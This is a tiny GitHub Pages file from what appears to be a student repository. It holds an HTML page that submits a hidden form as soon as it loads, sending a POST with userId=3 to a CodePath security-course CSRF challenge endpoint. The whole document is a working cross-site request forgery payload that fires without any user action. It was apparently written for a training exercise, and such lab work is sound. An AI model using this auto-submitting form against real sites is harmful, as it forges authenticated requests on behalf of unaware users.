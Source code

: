 # JLPlummer79.github.io
<html>
  <body onload="document.csrfform.submit()">
    <form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="3"/>
      <input type="submit"/>
    </form>
    <iframe name="hidden_results" style="display: none;">  </iframe>
  </body>
</html>
